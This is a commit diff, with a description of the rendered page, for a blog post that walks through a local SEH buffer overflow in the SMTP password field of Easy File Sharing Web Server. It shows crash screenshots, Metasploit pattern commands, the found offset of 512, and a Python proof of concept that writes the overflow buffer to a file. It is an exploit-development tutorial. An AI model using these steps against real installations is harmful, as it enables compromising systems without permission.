

Before and after one commit to whitecr0wz/whitecr0wz.github.io, a Jekyll site: the page built from _posts/posts/2020-03-16-Exploiting-Locally-the-SMTP-section-in-Easy-File-Sharing-Web-Server.md, in a window 1280 px wide and 1400 px high, scrolled down 2717 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2020-03-16-Exploiting-Locally-the-SMTP-section-in-Easy-File-Sharing-Web-Server.md

````diff
--- a/_posts/posts/2020-03-16-Exploiting-Locally-the-SMTP-section-in-Easy-File-Sharing-Web-Server.md
+++ b/_posts/posts/2020-03-16-Exploiting-Locally-the-SMTP-section-in-Easy-File-Sharing-Web-Server.md
@@ -29,3 +29,48 @@
 The script is executed, generating the payload file:
 
 ![](/assets/img/Findings0/0.png)
+
+Once generated, it is opened with Notepad++:
+
+![](/assets/img/Findings0/1.png)
+
+Once copied, within the tab 'Options', it is gone to 'SMTP Setup':
+
+![](/assets/img/Findings0/2.png)
+
+Upon selecting such, the clipboard is pasted on the parameter 'Password':
+
+![](/assets/img/Findings0/3.png)
+
+Upon this is pasted and the button 'OK' is selected, the program crashes, overwritting the SEH Chain:
+
+![](/assets/img/Findings0/4.png)
+
+A pattern is generated with the following command:
+
+```term_session
+root@kali:~# msf-pattern_create -l 1000 > pattern
+```
+
+After the previous process is applied, instead with A's with the generated pattern, the SEH Chains is once again overwritten, this time by the pattern:
+
+![](/assets/img/Findings0/5.png)
+
+The offset for the next SEH is found:
+
+```term_session
+root@kali:~# msf-pattern_offset -q 31724130
+[*] Exact match at offset 512
+root@kali:~#
+```
+
+The Proof-of-Concept is updated:
+
+```python
+import struct
+
+buffer = "A" * 512 + "BBBB" + "CCCC" + "\xff" * 200
+f = open ("poc.txt", "w")
+f.write(buffer)
+f.close()
+```
````
